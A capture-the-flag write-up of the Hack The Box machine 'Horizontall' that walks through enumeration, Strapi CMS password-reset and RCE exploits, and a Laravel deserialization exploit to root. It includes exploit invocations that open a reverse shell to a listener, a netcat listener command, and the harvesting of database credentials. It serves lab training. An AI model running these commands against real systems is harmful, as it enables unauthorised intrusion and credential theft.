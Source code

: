 ```yaml
---
title: HTB Writeup - Horizontall
date: 2022-01-26T15:19:50.347Z
image: /images/1_jbwgsjvfciuozjdoclzcow.jpeg
tags:
  - hackthebox
  - htb
  - horizontall
  - tunneling
  - chisel
  - StrapiCMS
  - laravel
draft: true
---
```

**Machine Details**

**Name: Horizontall**

**IP address: 10.10.11.105**

**Difficulty: Easy**

**Points 20**

**Initial Enumeration**

Upon obtaining the IP address, 10.10.11.105, the first thing to do is to run a scan to figure out what ports and services are running on the machine. I did this using nmap and the result is shown below:

![](/images/2022-01-26_13-17.png)

The machine has two services running; SSH on port 22 and HTTP on port 80. The SSH version looks recent so I started my enumeration on the HTTP service running on port 80. From the result, the page redirects to http://horizontall.htb, so I proceeded to add this to my /etc/hosts file.

`10.10.11.105    horizontall.htb`

Visiting http://horizontall.htb in the browser, I was presented with the following page:

![](/images/2022-01-26_13-23.png)

I spent quite some time on this page trying to find a possible entry point but to no avail. I found that the web page using Vue.js. I ran a directory brute force using gobuster and obtained the following results:

`gobuster dir -u http://horizontall.htb -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -o gobuster.out`

![](/images/2022-01-26_13-27.png)

I also tried to run a directory search using various extensions but no positive result. Being on this stage for a while, I decided to run a full port scan on the address to see if other ports are running, but did not find any. Since I have an hostname, horizontall.htb, I decided to search for other subdomains on the hostname. For this purpose, I used wfuzz starting with the subdomains-top1million-5000.txt file from seclists, I did not obtain a result, I used the subdomains-top1million-20000.txt file, no result and finally I used the subdomains-top1million-110000.txt file and I found another subdomain.

`wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.horizontall.htb" -u http://horizontall.htb --hc 301 -v`

I added this newly founded subdomain to the /etc/hosts file.

`10.10.11.105    horizontall.htb ********.horizontall.htb`

Visiting this subdomain on the browser, I was presented with a page that says "Welcome.".

![](/images/2022-01-26_16-34.png)

I performed directory search on this new subdomain using gobuster and I obtained some results:

`gobuster dir -u http://********.horizontall.htb -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -o gobuster.********.out`

![](/images/2022-01-26_14-07.png)

Visiting /admin on the browser, I was presented with a login page running Strapi CMS.

![](/images/2022-01-26_15-42_1.png)

I proceeded to searching Google for Strapi CMS and found that this CMS is vulnerable to a couple of remote code execution (RCE) vulnerabilities. One I found interesting is the unauthenticated exploit at <https://www.exploit-db.com/exploit/50239>. The exploit basically resets the admin password to a given value and provides a JWT token for the session. I downloaded and ran the exploit with the required parameter and was able to successfully reset the admin's password and obtain a JWT key and was able to login into the admin dashboard.

![](/images/2022-01-26_14-21.png)

`python3 50239.py http://********.horizontall.htb`

![](/images/2022-01-26_16-42.png)

![](/images/2022-01-26_15-42.png)

At this point, there are two options. The first is to send commands through the cmd shell obtained from the exploit above and wait for possible execution (blind RCE). The second option (which I followed) was to use another RCE exploit (authenticated) to gain a shell on the box. I found an exploit at <https://github.com/diego-tella/CVE-2019-19609-EXPLOIT>. The exploit takes a domain name or IP address, a JWT token, a listening host IP and a listening port. I ran the exploit and was able to obtain a reverse shell on my machine.

`python exploit.py -d http://********.horizontall.htb -jwt JWT -l 10.10.14.104 -p 9001`

Note: JWT is the token value obtained from 50239.py exploit. Also I had started a listener on my box on port 9001.

`nc -lvnp 9001`

![](/images/2022-01-26_14-54.png)

Now that I have a foothold, I started enumerating the box. I cat'ed the /etc/passwd file and noticed there is a user "developer". I visited the user's home directory and was able to read the user.txt file.

![](/images/2022-01-26_14-57.png)

After a while I went back to the directory I got a shell into, /opt/strapi/myapi and found a directory "config" that contains some environment configurations. In the development folder, I found mysql creds for the user "developer".

![](/images/2022-01-26_14-58.png)

I was able to access mysql with the creds but I obtained nothing much from the database. I tried to login on the box as user "developer" using the password I found but I got password authentication failure error.

After a while of enumeration, I checked the network connections using netstat and I noticed there is a service running on port 8000 locally on the box.

`netstat -antp`

![](/images/2022-01-26_14-59.png)

In order to access the service, I tunneled the port to my local machine on port 8080. I used chisel to do this (I had to move it to the box).

![](/images/2022-01-26_15-03.png)

 Accessing the port on my local machine, I got the page below:

![](/images/2022-01-26_15-03_1.png)

Searching for Laravel8 vulnerabilities on Google, I came across an interesting documentation on bookhacktricks - <https://book.hacktricks.xyz/pentesting/pentesting-web/laravel>. To verify, I checked that the Laravel setup is in debug mode.

![](/images/2022-01-26_15-04.png)

Down the page, there is link to a Laravel deserialization exploit. I used the exploit at <https://github.com/nth347/CVE-2021-3129_exploit>. Running the exploit with the required parameters, I was able to obtain a root shell on the box.

![](/images/2022-01-26_15-06.png)

And that's Horizontall!
